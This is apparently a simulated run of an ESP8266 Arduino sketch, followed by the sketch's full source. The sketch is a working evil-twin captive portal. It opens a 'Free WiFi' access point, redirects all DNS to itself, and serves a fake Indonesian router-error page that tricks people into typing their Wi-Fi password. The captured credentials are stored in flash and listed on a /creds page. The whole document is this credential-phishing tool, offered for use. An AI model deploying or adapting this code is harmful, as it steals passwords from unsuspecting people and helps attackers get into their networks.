
A sketch run on a simulated ESP8266 (NodeMCU). Parts: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). Dashed ring = blinking. Inputs (shaded band) come from the test bench. Storage starts empty; what the sketch prints to the serial monitor is not drawn.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.7 s:

Timing chart, 0 to 7.3 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, GPIO 2 (LED_BUILTIN): alternates HIGH for 0.50 s and LOW for 0.50 s, 10 changes in all, then stays HIGH, starting at once

The sketch:

fiberhome_captive_portal.ino
```cpp
// ESP8266 WiFi Captive Portal
// By 125K (github.com/125K)
// LittleFS functionality by dsfifty 16 Nov 2022

// Includes
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <LittleFS.h>

// User configuration
#define SSID_NAME "Free WiFi"
#define SUBTITLE "Wifi Terkendala"
#define TITLE "Error!"
#define BODY "Mohon maaf, kami mendeteksi bahwa router anda mengalami kendala akibat pemadaman. Silahkan masukan password wifi untuk melakukan pemulihan."
#define POST_TITLE "Memproses..."
#define POST_BODY "Kami sedang melakukan perbaikan. Silakan Tunggu beberapa menit.</br>Terima kasih."
#define PASS_TITLE "Credentials"
#define CLEAR_TITLE "Cleared"

//function prototypes
void readData();
void writeData(String data);
void deleteData();

// Init System Settings
const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(172, 0, 0, 1);  // Gateway

String data = "";
String Credentials = "";
int savedData = 0;
int timer = 5000;
int i = 0;
unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer;
ESP8266WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;");
  a.replace(">", "&gt;");
  a.substring(0, 200);
  return a;
}

String footer() { return
  "</div><div class=q><a>Hubungi Administrator untuk informasi lebih lanjut.</a></div>";
}

String header(String t) {
  String a = String(SSID_NAME);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
    "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
    "div { padding: 0.5em; }"
    "h1 { margin: 0.5em 0 0 0; padding-left: 0.2em; color:red; }"
    "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555; }"
    "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
    "nav { background: red; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
    "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
    "textarea { width: 100%; }";
  String h = "<!DOCTYPE html><html>"
    "<head><title>"+a+" :: "+t+"</title>"
    "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
    "<style>"+CSS+"</style></head>"
    "<body><nav><b>"+a+"</b> "+SUBTITLE+"</nav><div><h1>"+t+"</h1></div><div>";
  return h; }

String creds() {
  return header(PASS_TITLE) + "<ol>" + Credentials + "</ol><br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post>" +
    "<b>SSID:</b> <center><input type=text name=ssid value='"+SSID_NAME+"' readonly></input></center>" +
    "<b>Password:</b> <center><input type=password name=password></input><input type=submit value=\"Pulihkan\"></form></center>" + footer();
}

String posted() {
  String ssid = input("ssid");
  String password = input("password");
  readData();  //retrieves saved data and adds the new data. The data variable is updated and saved again to LittleFS
  Credentials = data + "<li>SSID: <b>" + ssid + "</b></br>Password: <b>" + password + "</b></li>";
  data = Credentials;
  writeData(data);
  savedData = 1;
  return header(POST_TITLE) + POST_BODY + footer();
}

String clear() {
  String ssid = "<p></p>";
  String password = "<p></p>";
  Credentials = "<p></p>";
  data = "";
  savedData = 0;
  deleteData();  //deletes the file from LittleFS
  return header(CLEAR_TITLE) + "<div><p>The credentials list has been reset.</div></p><center><a style=\"color:blue\" href=/>Back to Index</a></center>" + footer();
}

void BLINK() {  // The internal LED will blink 5 times when a password is received.
  int count = 0;
  while (count < 5) {
    digitalWrite(LED_BUILTIN, LOW);
    delay(500);
    digitalWrite(LED_BUILTIN, HIGH);
    delay(500);
    count = count + 1;
  }
}

void readData()  //reads the file from LittleFS and returns as the string variable called: data
{
  //Open the file
  File file = LittleFS.open("/SavedFile.txt", "r");
  //Check if the file exists
  if (!file) {
    return;
  }
  data = "";  //setup for data read
  int i = 0;
  char myArray[1000];
  while (file.available()) {

    myArray[i] = (file.read());  //file is read one character at a time into the char array
    i++;
  }
  myArray[i] = '\0';  //a null is added at the end
  //Close the file
  file.close();
  data = String(myArray);  //convert the array into a string ready for return
  if (data != ""){
    savedData=1;
  }
}

void writeData(String data) {
  //Open the file
  File file = LittleFS.open("/SavedFile.txt", "w");
  //Write to the file
  file.print(data);
  delay(1);
  //Close the file
  file.close();
}

void deleteData() {
  //Remove the file
  LittleFS.remove("/SavedFile.txt");
}

void setup() {
  bootTime = lastActivity = millis();
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);
  dnsServer.start(DNS_PORT, "*", APIP);  // DNS spoofing (Only HTTP)
  webServer.on("/post", []() {
    webServer.send(HTTP_CODE, "text/html", posted());
    BLINK();
  });
  webServer.on("/creds", []() {
    webServer.send(HTTP_CODE, "text/html", creds());
  });
  webServer.on("/clear", []() {
    webServer.send(HTTP_CODE, "text/html", clear());
  });
  webServer.onNotFound([]() {
    lastActivity = millis();
    webServer.send(HTTP_CODE, "text/html", index());
  });
  webServer.begin();
  pinMode(LED_BUILTIN, OUTPUT);
  digitalWrite(LED_BUILTIN, HIGH);
  Serial.begin(115200);

  //LittleFS set up
  if (!LittleFS.begin()) {
    Serial.println("An Error has occurred while mounting LittleFS");
    delay(1000);
    return;
  }
  //Read the saved data every boot
  readData();

}


void loop() {
  if ((millis() - lastTick) > TICK_TIMER) { lastTick = millis(); }
  dnsServer.processNextRequest();
  webServer.handleClient();
  i++;
  Serial.println(i);
  Serial.println(savedData);
  if (i == timer && savedData == 1) {
    i = 0;
    digitalWrite(LED_BUILTIN, LOW);
    delay(50);
    digitalWrite(LED_BUILTIN, HIGH);
  }
  if (i > timer) { i = 0; }
}
```
